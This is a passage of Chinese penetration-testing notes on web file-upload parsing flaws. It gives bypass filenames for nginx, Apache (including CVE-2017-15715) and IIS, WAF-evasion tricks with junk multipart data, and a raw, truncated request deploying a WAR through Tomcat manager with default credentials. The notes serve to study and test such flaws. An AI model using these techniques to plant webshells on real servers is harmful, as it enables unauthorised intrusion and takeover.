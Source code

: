 5. 解析漏洞

- nginx

用户配置不当造成解析漏洞,增加`/.php`后缀,被解析为PHP文件

```
shell.png/.php
```

- apache httpd

Apache解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断

`a.php.asdfqwer`解析为php

- CVE-2017-15715

上传`xxx.php\x0A`,访问`/1.php%0A`

[https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)

- IIS6解析漏洞

在`.asp`和`.asa`目录下的任意文件都会解析成asp,服务器默认不解析`;`后面的内容

`asdf.asp;.jpg`会被解析为asp

- IIS7/7.5解析漏洞

类似于nginx解析漏洞

部分IIS相关的罕见后缀

```
.asa
.cer
.cdx
```

>WAF层面的黑名单

1. 垃圾数据

- 在要上传的webshell中添加垃圾数据

- 利用`multipart/form-data`的特性,添加多个垃圾数据块,部分WAF存在无法处理多个数据块的情况

2. 畸形数据包

以tomcat的manager界面部署war包为例

```
POST /manager/html/upload;jsessionid=90151C6DAF8D510DF8E71D036D47F1F4?org.apache.catalina.filters.CSRF_NONCE=2812C24315E7A0FC3C55DB6D125DB7BC HTTP/1.1
Host: 192.168.89.129:8080
Content-Length: 1379
Cache-Control: max-age=0
Authorization: Basic dG9tY2F0OnRvbWNhdA==
Origin: http://192.168.89.129:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCYU5Y59MNL5BAit4
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.89.129:8080/manager/html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=90151C6DAF8D510DF8E71D036D47F1F4
Connection: close

------WebKitFormBoundaryCYU5Y59MNL5BAit4
```